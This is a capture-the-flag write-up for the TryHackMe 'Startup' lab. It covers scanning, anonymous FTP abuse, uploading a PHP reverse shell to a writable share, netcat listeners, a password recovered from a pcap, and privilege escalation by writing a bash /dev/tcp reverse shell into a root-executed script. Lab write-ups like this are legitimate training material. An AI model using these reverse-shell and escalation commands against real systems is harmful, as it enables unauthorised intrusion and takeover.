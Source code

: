 ```yaml
---
title: Startup-writeup-THM
date: 2024-01-07
categories: [room, easy]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1602237514002-c2d8ae2da393?q=80&w=1974&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/startup">Startup</a>"

I will start with a nmap scan:

```bash
nmap -sC -sV 10.10.107.18                  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 15:17 EST
Nmap scan report for 10.10.107.18
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.65.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all we see that in the ftp server allows Anonymous login and that there are 2 file in it.

I will start with that:

```bash
ftp 10.10.107.18                                                           

Connected to 10.10.107.18.
220 (vsFTPd 3.0.3)
Name (10.10.107.18:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56482|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

```bash
cat notice.txt                

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

We now have a name, Maya.

The site doesn’t tell us much:

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fecbb84-9598-4ec2-9fa9-5ad99163bcf9/7c8652bf-813d-479b-9309-5b2401cc9e7c/Untitled.png)

So I started a directory fuzzer:

```bash
ffuf -u http://10.10.107.18/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.107.18/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 59ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2807ms]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 172ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 66ms]
:: Progress: [20469/20469] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

I discovered the files directory which is the ftp share:

Maybe we can upload a php revshell with ftp.

We have write access in the ftp folder:

```bash

ftp> cd ftp
250 Directory successfully changed.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||40969|)
150 Ok to send data.
100% |***************************************************************************************************|  3461       70.22 MiB/s    00:00 ETA
226 Transfer complete.
3461 bytes sent in 00:00 (6.92 KiB/s)
ftp>
```

I uploaded my pentester monkey php reverse shell

 

```bash
nc -lvnp 4444                                                                                                 

listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.107.18] 40798
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:52:55 up 37 min,  0 users,  load average: 0.00, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

And we got a shell!

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn ("/bin/bash")'      
www-data@startup:/$
```

I also spawned a nicer shell with the help of python.

apart from the recipe, in the home directory there are also a vagrant directory, which appears to be a home directory, and an incidents directory:

```bash
ls

bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

In the incidents there is a pcapng file which we can read with wireshark, I downloaded the file uploading it in the ftp directory:

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

From here I looked up the traffic and found out that lennie, tried to login with his credentials with the www-data account:

```bash
Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

So I tried logging in and it worked:

```bash
www-data@startup:/incidents$ su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/incidents$
```

I then grabbed the user flag, and discovered a file in the etc folder that I owned that it was executed from root, I edited it with this and got a root shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.11.65.91/5555 0>&1
```